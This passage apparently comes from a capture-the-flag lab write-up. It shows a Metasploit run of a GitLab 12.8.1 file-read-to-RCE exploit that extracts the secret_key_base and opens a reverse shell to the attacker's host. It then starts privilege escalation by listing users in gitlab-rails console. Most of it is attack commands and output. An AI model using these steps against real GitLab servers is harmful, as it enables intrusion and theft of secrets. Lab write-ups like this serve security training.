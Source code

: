 ```terminal
[msf](Jobs:0 Agents:0) exploit(multi/http/gitlab_file_read_rce) >> set ssl true                                                                               
[!] Changing the SSL option's value may require changing RPORT!                                                                                               
ssl => true                                                              
[msf](Jobs:0 Agents:0) exploit(multi/http/gitlab_file_read_rce) >> set rport 443
rport => 443
[msf](Jobs:0 Agents:0) exploit(multi/http/gitlab_file_read_rce) >> run

[*] Started reverse TCP handler on 10.10.17.90:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. GitLab 12.8.1 is a vulnerable version. 
[*] Logged in to user sirius
[*] Created project /sirius/za0CPPqN
[*] Created project /sirius/dA2cmmKj
[*] Created issue /sirius/za0CPPqN/issues/1
[*] Executing arbitrary file load
[+] File saved as: '/home/sirius/.msf4/loot/20230522110255_default_10.10.10.216_gitlab.secrets_098210.txt'
[+] Extracted secret_key_base 3231f54b33e0c1ce998113c083528460153b19542a70173b4458a21e845ffa33cc45ca7486fc8ebb6b2727cc02feea4c3adbe2cc7b65003510e4031e164137b3
[*] NOTE: Setting the SECRET_KEY_BASE option with the above value will skip this arbitrary file read
[*] Attempting to delete project /sirius/za0CPPqN
[*] Deleted project /sirius/za0CPPqN
[*] Attempting to delete project /sirius/dA2cmmKj
[*] Deleted project /sirius/dA2cmmKj
[*] Command shell session 1 opened (10.10.17.90:4444 -> 10.10.10.216:49858) at 2023-05-22 11:03:08 +0100

id
uid=998(git) gid=998(git) groups=998(git)

```

## **Privilege Escalation**

### dexter

With `gitlab-rails console` we can list users:

```terminal
git@git:/etc/gitlab$ gitlab-rails console
--------------------------------------------------------------------------------
 GitLab:       12.8.1 (d18b43a5f5a) FOSS
 GitLab Shell: 11.0.0
 PostgreSQL:   10.12
--------------------------------------------------------------------------------
Loading production environment (Rails 6.0.2)

irb(main):002:0> User.active
=> #<ActiveRecord::Relation [#<User id:5 @sirius>, #<User id:4 @seven>, #<User id:1 @dexter>]>
irb(main):003:0> 
```
